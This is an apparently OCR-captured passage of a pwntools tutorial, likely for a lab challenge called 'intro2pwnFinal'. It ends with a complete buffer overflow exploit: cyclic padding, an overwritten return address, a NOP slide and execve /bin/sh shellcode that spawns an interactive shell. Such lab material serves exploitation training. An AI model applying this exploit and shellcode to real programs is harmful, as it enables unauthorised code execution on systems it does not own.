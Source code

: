 For a local process, we use the process() function.

```
proc = process('./intro2pwnFinal')
```

We can receive data from the process, and since the process sends data with a new line, we can use recvline(), rather than recvn().

```
proc.recvline()
```

After we have crafted our payload, we can send it with:

```
proc.send(payload)
```

Finally, after we have sent the payload, we need a way to communicate with the shell we have just spawned.

```
proc.interactive()
```

#### __Final code__

```python
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)

nop_slide = "\x90"*1000
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

proc.send(payload)
proc.interactive()
```







